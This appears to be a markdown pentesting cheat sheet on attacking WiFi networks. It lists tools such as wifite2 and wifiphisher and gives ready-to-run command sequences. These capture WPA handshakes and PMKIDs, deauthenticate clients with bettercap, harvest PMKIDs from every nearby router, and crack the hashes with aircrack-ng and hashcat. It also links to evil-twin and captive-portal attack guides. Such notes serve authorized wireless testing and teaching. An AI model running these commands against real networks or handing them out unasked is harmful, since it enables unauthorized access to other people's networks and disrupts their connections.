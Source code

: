 # WiFi 

## Tools 

- Airgeddon: <https://github.com/v1s1t0r1sh3r3/airgeddon>
- wifite2 - Attack multiple WEP and WPA encrypted networks at the same time: <https://github.com/derv82/wifite2>
- WIFIPhisher - Phishing attack tool for Wifi networks: <https://github.com/wifiphisher/wifiphisher>
- WiFi Wardriving with Android - WiGLE WiFi Wardriving: <https://play.google.com/store/apps/details?id=net.wigle.wigleandroid&hl=en>

## Quick Reference 
- Capture and crack handshake:
    ```
    aircrack-ng captured.cap​
    aircrack-ng -a 2 -b <BSSID> -w wordlist captured.cap​
    ```
- WPA/WPA2 PMKID
  - STEP 1:
    - <https://github.com/ZerBea/hcxdumptool>
    - <https://github.com/aircrack-ng/aircrack-ng>
  - STEP 2: Find target BSSID:
    - `airodump-ng <int>`
  - STEP 3: Add BSSID in ‘bssid.txt’ and use ‘hcxdumptool’:
    - `hcxdumptool -i <int> --filterlist=bssid.txt --filermode=2 --enable_status=2 -o pmkid.pcap`
  - STEP 4: Extract PMKID into hashcat format for cracking:
    - <github.com/ZerBea/hcxtools>
    - `hcxpcaptool -z wpa2_pmkid_hash.txt pmkid.pcap`
  - STEP 5: Crack:
    - `hashcat -a 0 -m 16800 -w 4 wpa2_pmkid_hash.txt dict.txt`
  - <https://mobile.twitter.com/netmux/status/1097908867374215168>
- WPA enterprise (evil tween attack)
  - <https://pwn.no0.be/exploitation/wifi/wpa_enterprise/>
  - <https://rootsh3ll.com/evil-twin-attack/>
- 4 way handshake capture:
    ```bash
    sudo bettercap -iface wlan0
    ```
  - this will set the interface in monitor mode and start channel hopping on all supported frequencies: `wifi.recon on`
  - we want our APs sorted by number of clients for this attack, the default sorting would be `rssi asc`: 
    ```bash
    set wifi.show.sort clients desc
    ```
  - every second, clear our view and present an updated list of nearby WiFi networks
    ```bash
    set ticker.commands 'clear; wifi.show'
    ticker on
    ```
  - other
    ```bash
    wifi.recon.channel 1
    ```
    ```bash
    wifi.deauth e0:xx:xx:xx:xx:xx
    ```
- Cracking 4-way handshake:
    ```bash
    /path/to/cap2hccapx /root/bettercap-wifi-handshakes.pcap bettercap-wifi-handshakes.hccapx
    /path/to/hashcat -m2500 -a3 -w3 bettercap-wifi-handshakes.hccapx '?d?d?d?d?d?d?d?d'
    ```
- Client-less **PMKID Attack**
  - <https://hashcat.net/forum/thread-7717.html>
  - PMKID = HMAC-SHA1-128(PMK, "PMK Name" | MAC_AP | MAC_STA)
    ```bash 
    # wifi.assoc supports 'all' (or `*`) or a specific BSSID, just like wifi.deauth
    wifi.assoc all
    ```
  - All nearby vulnerable routers (and let me reiterate: a lot of them are vulnerable), will start sending you the PMKID, which bettercap will dump to the usual pcap file:
- PMKID Cracking
    ```bash 
    /path/to/hcxpcaptool -z bettercap-wifi-handshakes.pmkid /root/bettercap-wifi-handshakes.pcap
    /path/to/hashcat -m16800 -a3 -w3 bettercap-wifi-handshakes.pmkid '?d?d?d?d?d?d?d?d'
    ```

## References

**New References**

- Tracking All the WiFi Things: https://osintcurio.us/2019/01/15/tracking-all-the-wifi-things/
- How to Make a Captive Portal of Death: https://medium.com/bugbountywriteup/how-to-make-a-captive-portal-of-death-48e82a1d81a
